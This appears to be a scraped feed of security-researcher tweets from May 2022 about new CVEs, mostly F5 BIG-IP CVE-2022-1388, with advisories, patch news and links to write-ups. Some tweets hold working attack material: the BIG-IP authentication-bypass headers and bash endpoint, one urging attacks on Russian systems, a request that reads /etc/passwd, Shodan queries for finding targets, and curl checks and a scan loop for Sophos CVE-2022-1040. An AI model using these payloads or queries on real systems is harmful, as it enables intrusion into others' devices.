On April 28, Zyxel released firmware that fixed an unauthenticated and remote command injection I'd found in their firewalls: USG FLEX series, ATP series, and USG20-VPN/USG20w-VPN. This was assigned CVE-2022-30525. We published our advisory this morning: https://t.co/lJF3kXoCok
</blockquote>

* https://www.rapid7.com/blog/post/2022/05/12/cve-2022-30525-fixed-zyxel-firewall-unauthenticated-remote-command-injection/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>115</code></td>
</tr></table>

---

# Nettitude_Labs
**https://twitter.com/Nettitude_Labs/status/1524725186678996992 _at 2022-05-12, 12:16:27_**
<blockquote>
Today's write up is a deep dive into CVE-2022-23270, another remote Microsoft Windows VPN vulnerability, by @i4mchr00t.  

Learn how to identify and trigger Use after Free vulnerabilities in production code!

https://t.co/FyVNR4VhYt
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-23270-windows-server-vpn-remote-kernel-use-after-free-vulnerability/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>70</code></td>
</tr></table>

---

# starlabs_sg
**https://twitter.com/starlabs_sg/status/1524707213817696258 _at 2022-05-12, 11:05:02_**
<blockquote>
"New Wine in Old Bottle - Microsoft SharePoint Post-Auth Deserialization RCE (CVE-2022-29108)"
We are happy to share the technical details of how our team member @testanull found and exploited CVE-2022-29108 🤩
https://t.co/J5Ro78LUbj
</blockquote>

* https://starlabs.sg/blog/2022/05/new-wine-in-old-bottle-microsoft-sharepoint-post-auth-deserialization-rce-cve-2022-29108/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>98</code></td>
<td>Favorites: <code>205</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1524540140240224259 _at 2022-05-12, 00:01:08_**
<blockquote>
CVE-2022-21972: Windows Server VPN Remote Kernel Use After Free Vulnerability  https://t.co/IQRR1k1YEm #Pentesting #Windows #Kernel #Vulnerability   #CyberSecurity #Infosec https://t.co/dj9B6MZjkX
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-21972-windows-server-vpn-remote-kernel-use-after-free-vulnerability/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# TecR0c
**https://twitter.com/TecR0c/status/1524423383051644930 _at 2022-05-11, 16:17:11_**
<blockquote>
Microsoft has patched one of my RCE bugs CVE-2022-29109, affecting Excel and Office Server #PatchTuesday https://t.co/gBq2htTrBH
</blockquote>

* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-29109

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>121</code></td>
</tr></table>

---

# Nettitude_Labs
**https://twitter.com/Nettitude_Labs/status/1524362704802226177 _at 2022-05-11, 12:16:04_**
<blockquote>
CVE-2022-21972: Windows Server VPN - remote kernel use after free vulnerability, by @i4mchr00t. 

This one has RCE potential. Patch just released on Patch Tuesday. Apply it now.

https://t.co/udW54soCXP
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-21972-windows-server-vpn-remote-kernel-use-after-free-vulnerability/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>108</code></td>
<td>Favorites: <code>195</code></td>
</tr></table>

---

# LiveOverflow
**https://twitter.com/LiveOverflow/status/1524355605359742978 _at 2022-05-11, 11:47:52_**
<blockquote>
Just some thoughts about CVE-2022-1388. I think it's a great example for why it's important to label vulns properly. Many call it a "Remote Code Execution" issue, but that's just the impact...
Take a close look at the CVE details, it's actually a critical "Authentication Bypass"! https://t.co/xA5Mv3wMbd
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>272</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1524238867221696513 _at 2022-05-11, 04:03:59_**
<blockquote>
CVE-2022-21972: Windows Server VPN Remote Kernel Use After Free Vulnerability https://t.co/yqqKaI3TZE
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-21972-windows-server-vpn-remote-kernel-use-after-free-vulnerability/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>75</code></td>
<td>Favorites: <code>157</code></td>
</tr></table>

---

# nullshock1
**https://twitter.com/nullshock1/status/1524225229861826560 _at 2022-05-11, 03:09:48_**
<blockquote>
Exploited F5 BIG-IP CVE-2022-1388
(RCE Vulnerability)
Will share the steps soon!
 #bugbounty #infosec #cybersecurity https://t.co/C38epKnf2B
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>195</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1524204079068901378 _at 2022-05-11, 01:45:45_**
<blockquote>
[CVE-2022-26133] Atlassian Bitbucket Data Center Java deserialization RCE

[Vul Scanner]
python3 https://t.co/Aj4Tp4MJ5K -u http://192.168.110.136:7990/ --verify

https://t.co/KCth1lI7AR https://t.co/WlXycMOkex
</blockquote>

* http://CVE-2022-26133.py
* https://github.com/Pear1y/CVE-2022-26133?fbclid=IwAR0kGMK6WaQGnXTXqKsfGvm1q62GVCMvs8ghQn81BZnEAOpgYDRKXD88NJI

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>170</code></td>
<td>Favorites: <code>450</code></td>
</tr></table>

---

# an0n_r0
**https://twitter.com/an0n_r0/status/1524181212868325380 _at 2022-05-11, 00:14:53_**
<blockquote>
reproduced, awesome! from owned (or just freshly created) computer account to domain admin in couple of steps using ADCS by exploiting CVE-2022-26923 reported and documented by @ly4k_. patch DCs ASAP! :) https://t.co/8dm4wIe9QN
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>88</code></td>
<td>Favorites: <code>215</code></td>
</tr></table>

---

# ly4k_
**https://twitter.com/ly4k_/status/1524115531938377728 _at 2022-05-10, 19:53:54_**
<blockquote>
The first blog post is here. This one covers the technical details of CVE-2022-26923 (Active Directory Domain Services Elevation of Privilege Vulnerability).

The vulnerability was patched as part of the May 2022 Security Updates from Microsoft.

https://t.co/MJKEoZTuo2
</blockquote>

* https://research.ifcr.dk/9e098fe298f4

<table><tr>
<td>Quotes: <code>21</code></td>
<td>Replies: <code>30</code></td>
<td>Retweets: <code>381</code></td>
<td>Favorites: <code>813</code></td>
</tr></table>

---

# splinter_code
**https://twitter.com/splinter_code/status/1524081363137306626 _at 2022-05-10, 17:38:07_**
<blockquote>
A quick look at the May 2022 Patch Tuesday:

CVSS 9.8 score:

CVE-2022-26937 - Windows Network File System Remote Code Execution Vulnerability
CVE-2022-22012 - Windows LDAP Remote Code Execution Vulnerability
CVE-2022-29130 - Windows LDAP Remote Code Execution Vulnerability
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>239</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1524079013068746752 _at 2022-05-10, 17:28:47_**
<blockquote>
The Microsoft May 2022 Patch Tuesday is out!

-75 bugs fixed this month
-one actively exploited zero-day (CVE-2022-26925 - Windows LSA Spoofing Vulnerability)

Report here: https://t.co/PTADpGl2XT https://t.co/j8vGowvLoD
</blockquote>

* https://rawcdn.githack.com/campuscodi/Microsoft-Patch-Tuesday-Security-Reports/1e7786fe1715dd9cfa861ca8d29a1091a2a4053f/Reports/MSRC_CVEs2022-May.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>116</code></td>
<td>Favorites: <code>229</code></td>
</tr></table>

---

# ryanaraine
**https://twitter.com/ryanaraine/status/1524076806940233728 _at 2022-05-10, 17:20:01_**
<blockquote>
"An unauthenticated attacker could call a method on the LSARPC interface and coerce the domain controller to authenticate to the attacker using NTLM..."

Fresh Windows 0day (CVE-2022-26925) https://t.co/XrevYvpj4H
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>128</code></td>
<td>Favorites: <code>416</code></td>
</tr></table>

---

# 0patch
**https://twitter.com/0patch/status/1524055459254124545 _at 2022-05-10, 15:55:11_**
<blockquote>
Micropatches are available for Remote Desktop Client RCE (CVE-2022-21990) https://t.co/pGFuIzwG9S

We'd like to thank Abdelhamid Naceri (@KLINIX5) for publishing their finding and providing a proof-of-concept that allowed us to reproduce the vulnerability and create a micropatch. https://t.co/MAzqWBmrFD
</blockquote>

* https://blog.0patch.com/2022/05/micropatches-for-remote-desktop-client.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1523966554538344448 _at 2022-05-10, 10:01:55_**
<blockquote>
A new RCE flaw (CVE-2022-29972) in #Microsoft Azure Synapse &amp; Data Factory could have allowed attackers to gain control of other Synapse workspaces and leak sensitive data, including service keys, API tokens, as well as passwords for other services

https://t.co/srY0ycAuby

#tech
</blockquote>

* https://thehackernews.com/2022/05/microsoft-mitigates-rce-vulnerability.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---

# three_cube
**https://twitter.com/three_cube/status/1523857554874449927 _at 2022-05-10, 02:48:47_**
<blockquote>
13 of these F5 Big IP systems in Russia. 

Use this exploit to take them down!

#CVE-2022-1388 F5's BIG-IP Unauth RCE

Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token: anything

https://x.x.x.x:443/mgmt/tm/util/bash https://t.co/HPloQX1A2Y
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1523847057018343424 _at 2022-05-10, 02:07:04_**
<blockquote>
RCE in Sophos Firewall (CVE-2022-1040) 
Cc @Dinosn @ExWareLabs 

curl -sk -H "X-Requested-With: XMLHttpRequest" -X POST 'hxxps://x.x.x.x/userportal/Controller?mode=8700&amp;operation=1&amp;datagrid=179&amp;json=\{"x":"test"\}' | grep -q 'Session Expired'
</blockquote>

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>352</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1523838488386293760 _at 2022-05-10, 01:33:01_**
<blockquote>
RT @l33d0hyun: My First Chrome Vulnerability!

CVE-2022-1638: Heap buffer overflow in V8 Internationalization https://t.co/LHBlSlcAUo
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# l33d0hyun
**https://twitter.com/l33d0hyun/status/1523792482265616385 _at 2022-05-09, 22:30:13_**
<blockquote>
My First Chrome Vulnerability!

CVE-2022-1638: Heap buffer overflow in V8 Internationalization https://t.co/LHBlSlcAUo
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>554</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1523740777406377985 _at 2022-05-09, 19:04:45_**
<blockquote>
⚠️ CVE-2022-1388 event detected ⚠️

Source IP:
170.254.178.173 (🇺🇸)

Target:
F5 BIG-IP iControl REST endpoints vulnerable to unauthenticated remote code execution (https://t.co/WUtSumd1b7).
#threatintel https://t.co/EOPrUcWXoe
</blockquote>

* https://support.f5.com/csp/article/K23605346

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>40</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---

# n0x08
**https://twitter.com/n0x08/status/1523710558666559488 _at 2022-05-09, 17:04:41_**
<blockquote>
Fun fact: you can use CVE-2022-1388 PoC to apply the workaround:

python3 &lt;poc&gt; -t 192.168.0.59 -c 'tmsh modify sys httpd include "RequestHeader set connection close"' https://t.co/6devYAVuHm
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>76</code></td>
<td>Favorites: <code>209</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1523706884942974976 _at 2022-05-09, 16:50:05_**
<blockquote>
So, #F5 already had a RCE vulnerability CVE-2021-22986 with CVSS score 9.8 for the same API endpoint that makes "bash" accessible to remote users and now a very similar CVE-2022-1388

https://t.co/wusV5H10w2

My respect for their software has never been lower https://t.co/2IMk44cmPi
</blockquote>

* https://twitter.com/Cthulhu_Sec/status/1523702441266401282

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>192</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1523684797474045952 _at 2022-05-09, 15:22:19_**
<blockquote>
CVE-2022-1040_checker

cat sophos_servers | while read host do; do curl --connect-timeout 10 -ks -H "X-Requested-With: XMLHttpRequest" -X POST "https://$host/userportal/Controller?mode=8700&amp;operation=1&amp;datagrid=179&amp;json=\{"👽":"TEST"\}" | grep -q 'Session Expired'
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>162</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1523638101796564993 _at 2022-05-09, 12:16:45_**
<blockquote>
The CVE-2022-1388 vulnerability is surely an honest mistake by an F5 developer, right?
Right??
</blockquote>

<table><tr>
<td>Quotes: <code>20</code></td>
<td>Replies: <code>17</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>388</code></td>
</tr></table>

---

# jas502n
**https://twitter.com/jas502n/status/1523611433938059265 _at 2022-05-09, 10:30:47_**
<blockquote>
#CVE-2022-1388 F5's BIG-IP Unauth RCE

Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token: anything

https://x.x.x.x:443/mgmt/tm/util/bash https://t.co/cPqdwjT11f
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>23</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>229</code></td>
<td>Favorites: <code>589</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1523578889691607040 _at 2022-05-09, 08:21:28_**
<blockquote>
POC, CVE-2022-1388  F5 Big-IP RCE
#bugbounty #nday https://t.co/VLt2UjEWkf
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>100</code></td>
<td>Favorites: <code>462</code></td>
</tr></table>

---

# MeAsHacker_HNA
**https://twitter.com/MeAsHacker_HNA/status/1523575563163627521 _at 2022-05-09, 08:08:15_**
<blockquote>
#CVE
CVE-2022-1388
F5 BIG-IP Unauthenticated #RCE Vulnerability

#POC
Use POST request to execute "cat /etc/passwd" command

#Shodan: 
http.title:"BIG-IP&amp;reg;-+Redirect" +"Server" 
 
#Nuclei:
https://t.co/p5gwsejbck

#Cyber #CyberSecurity #CyberAttack #InfoSec #Hacking #BugBounty https://t.co/ob1znAKymd
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/pull/4303/files

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>114</code></td>
<td>Favorites: <code>251</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1523573215993286657 _at 2022-05-09, 07:58:55_**
<blockquote>
POC, CVE-2022-1388  F5 Big-IP RCE https://t.co/FiRghbogiN
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>106</code></td>
<td>Favorites: <code>416</code></td>
</tr></table>

---

# 1ZRR4H
**https://twitter.com/1ZRR4H/status/1523572874061422593 _at 2022-05-09, 07:57:34_**
<blockquote>
🚨 Estoy viendo la explotación masiva de F5 BIG-IP CVE-2022-1388 (RCE), instalando #Webshell en /usr/local/www/xui/common/css/ como backdoor para mantener el acceso.

Ataques desde:
216.162.206.213 
209.127.252.207

Payload escribe en /tmp/f5.sh, ejecuta y elimina. https://t.co/W9BlpYTUEU
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>79</code></td>
<td>Favorites: <code>183</code></td>
</tr></table>

---

# AnnaViolet20
**https://twitter.com/AnnaViolet20/status/1523564632140509184 _at 2022-05-09, 07:24:49_**
<blockquote>
Let's drop CVE-2022-1388 PoC https://t.co/MmyvQGL6eO
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>66</code></td>
<td>Replies: <code>28</code></td>
<td>Retweets: <code>405</code></td>
<td>Favorites: <code>1534</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1523552115137810432 _at 2022-05-09, 06:35:05_**
<blockquote>
CVE-2022-1388 https://t.co/MjcM4Hy7ah
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>532</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1523541351161540609 _at 2022-05-09, 05:52:18_**
<blockquote>
CVE-2022-1040 single check

curl --connect-timeout 10 -ks -H "X-Requested-With: XMLHttpRequest" -X POST "https://host/userportal/Controller?mode=8700&amp;operation=1&amp;datagrid=179&amp;json=\{"👽":"TEST"\}"

https://t.co/fzrXeVlgEf
</blockquote>

* https://attackerkb.com/topics/cdXl2NL3cR/cve-2022-1040

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>143</code></td>
</tr></table>

---

# jas502n
**https://twitter.com/jas502n/status/1523365952104333318 _at 2022-05-08, 18:15:20_**
<blockquote>
RT @ptswarm: 🔥 We have reproduced the fresh CVE-2022-1388 in F5's BIG-IP.

Successful exploitation could lead to RCE from an unauthenticate…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>270</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1522873828896034816 _at 2022-05-07, 09:39:49_**
<blockquote>
🔥 We have reproduced the fresh CVE-2022-1388 in F5's BIG-IP.

Successful exploitation could lead to RCE from an unauthenticated user.

Patch ASAP! https://t.co/WjlWtTgSVz
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>18</code></td>
<td>Retweets: <code>270</code></td>
<td>Favorites: <code>794</code></td>
</tr></table>

---

# Horizon3Attack
**https://twitter.com/Horizon3Attack/status/1522715182014902272 _at 2022-05-06, 23:09:24_**
<blockquote>
The new F5 RCE vulnerability, CVE-2022-1388, is trivial to exploit. We spent some time chasing unrelated diffs within the newest version, but @jameshorseman2 ultimately got first blood. We'll release a POC next week to give more time for orgs to patch.

#f5 #CyberSecurity https://t.co/O1SivUE4vA
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>18</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>326</code></td>
<td>Favorites: <code>1033</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1522502078140403712 _at 2022-05-06, 09:02:36_**
<blockquote>
CVE-2022-1040

curl --insecure -H "X-Requested-With: XMLHttpRequest" -X POST 'hxxps://x.x.x.x/userportal/Controller?mode=8700&amp;operation=1&amp;datagrid=179&amp;json=\{"🦞":"test"\}'

👿
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>132</code></td>
<td>Favorites: <code>499</code></td>
</tr></table>

---

# blueteamsec1
**https://twitter.com/blueteamsec1/status/1522216808291258370 _at 2022-05-05, 14:09:03_**
<blockquote>
Lockbit 2.0 affiliate’s new SonicWall exploit bypasses MFA - Affiliates observed to exploit a known but relatively obscure SQLi vulnerability (CVE-2019-7481 or CVE-2021-20028) in a novel manner to retrieve user session data… https://t.co/PW3eVG5uIE #cyber #threathunting #infosec https://t.co/CHSbD4dO0L
</blockquote>

* http://dlvr.it/SPpwFz

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1522215131865780227 _at 2022-05-05, 14:02:23_**
<blockquote>
⚠️Synacor fixed an Authenticated RCE (CVE-2022-27925) in Zimbra Collaboration Suite found by our researcher Mikhail Klyuchnikov.

So far, no advisory, but the patch is available: https://t.co/XqpgWSFp1J https://t.co/g0tedjB1IA
</blockquote>

* https://wiki.zimbra.com/wiki/Security_Center

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>159</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1522206334099533826 _at 2022-05-05, 13:27:25_**
<blockquote>
BIG-IP iControl REST vulnerability CVE-2022-1388
hxxp://ip/mgmt/shared/authn/login
Shodan:
http.title:"BIG-IP&amp;reg;-+Redirect" +"Server"
🫰
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>106</code></td>
<td>Favorites: <code>332</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1522043390379974656 _at 2022-05-05, 02:39:57_**
<blockquote>
WATCH OUT! F5 warns of a new critical BIG-IP remote code execution #vulnerability (CVE-2022-1388) due to missing authentication checks that could allow attackers to gain control of affected systems.

Details: https://t.co/inPyfcPvWy

#infosec #cybersecurity #hacking #hackernews
</blockquote>

* https://thehackernews.com/2022/05/f5-warns-of-new-critical-big-ip-remote.html

<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>131</code></td>
<td>Favorites: <code>178</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1521963794045579270 _at 2022-05-04, 21:23:39_**
<blockquote>
CVE-2022-1388 is an unauthed RCE in F5 BIG-IP. Hat tip @n0x08. https://t.co/IkWkfQIrTc
</blockquote>

* https://support.f5.com/csp/article/K23605346

<table><tr>
<td>Quotes: <code>12</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>140</code></td>
<td>Favorites: <code>365</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1521824788796166144 _at 2022-05-04, 12:11:18_**
<blockquote>
A critical RCE #vulnerability (CVE-2022-26352) has been reported in the open-source dotCMS content management system, which is used by more than 10,000 customers in 70 countries, including Fortune 500 brands and mid-sized companies.

Read: https://t.co/GJCag2nINi

#infosec #tech
</blockquote>

* https://thehackernews.com/2022/05/critical-rce-bug-reported-in-dotcms.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---

# _ForrestOrr
**https://twitter.com/_ForrestOrr/status/1521445312405065728 _at 2022-05-03, 11:03:24_**
<blockquote>
I'm proud to release my first Google Chrome RCE derived from the most fascinating and mind bending exploit I have yet analyzed: CVE-2019-13720 Wizard Opium. This is a beautiful bug which I have crafted into an exploit bypassing ASLR, CFG and CET on Win10 https://t.co/RhMJ2nmVd4 https://t.co/1RMH4mBq9s
</blockquote>

* https://github.com/forrest-orr/WizardOpium

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>154</code></td>
<td>Favorites: <code>571</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1521340749060661248 _at 2022-05-03, 04:07:54_**
<blockquote>
Metasploit module for VMware Workspace ONE Access CVE-2022-22954, as promised. https://t.co/hljeHUGzUz
</blockquote>

* https://github.com/rapid7/metasploit-framework/pull/16512

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>89</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1521237068336316417 _at 2022-05-02, 21:15:54_**
<blockquote>
Since the 7-zip CVE-2022-29072 dust has mostly settled, let's do a post mortem.
The vulnerability was a hoax. A nonsensical writeup with some jargon buzzwords and a video. How did various tech outlets fare? How resistant are we to disinformation?  🤔
https://t.co/I7N4GxCyep
</blockquote>

* https://docs.google.com/document/d/1uZaoOTRNL9DweLNZPIX4Qz2PbwjJ5BkU-sDg2ojur7M/edit

<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>169</code></td>
<td>Favorites: <code>477</code></td>
</tr></table>

---

